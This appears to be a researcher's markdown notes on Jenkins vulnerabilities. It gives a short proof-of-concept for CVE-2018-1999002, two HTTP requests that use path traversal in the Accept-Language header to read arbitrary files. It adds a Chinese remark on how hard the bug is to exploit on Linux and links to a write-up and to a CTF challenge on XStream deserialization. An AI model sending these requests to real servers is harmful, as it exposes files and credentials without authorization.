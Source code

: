 # Jenkins

## CVE-2018-1999002
poc
```
GET /plugin/credentials/.ini HTTP/1.1
Host:
Accept-Language: ../../../../../../../../windows/win

GET /plugin/credentials/.txt HTTP/1.1
Host:
Accept-Language: ../../../../../../../../firebasky
```

[Jenkins 任意文件读取漏洞复现与分析 - 【CVE-2018-1999002](https://chybeta.github.io/2018/08/07/Jenkins-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-1999002%E3%80%91/)

linux 下利用难度大 必须找一个存在`_`的目录




## 插件问题 xxe/xstream 反序列化
https://github.com/Firebasky/ctf-Challenge/tree/main/2021_xyb_easyJenkins
